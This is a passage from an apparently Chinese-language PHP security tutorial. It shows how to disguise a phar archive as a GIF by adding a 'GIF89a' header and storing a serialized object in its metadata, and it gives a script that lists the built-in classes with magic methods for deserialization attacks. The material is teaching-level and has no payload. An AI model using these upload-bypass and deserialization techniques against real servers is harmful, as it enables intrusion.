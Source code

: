 ### 将phar伪造成其他格式的文件

php识别phar文件是通过其文件头的stub，更确切一点来说是`__HALT_COMPILER();?>`这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件。

```
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar");
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
//生成的phar文件会被文件头检测为GIF
```

## 使用php内置类进行反序列化攻击

### PHP内置类

```
$classes = get_declared_classes();
foreach ($classes as $class) {
	$methods = get_class_methods($class);
	foreach ($methods as $method) {
		if (in_array($method, array(
			'__destruct',
			'__toString',
			'__wakeup',
			'__call',
			'__callStatic',
			'__get',
			'__set',
			'__isset',
			'__unset',
			'__invoke',
			'__set_state'
		))) {
			print $class . '::' . $method . "\n";
		}
	}
}
//输出结果为php中内置的类及方法
```

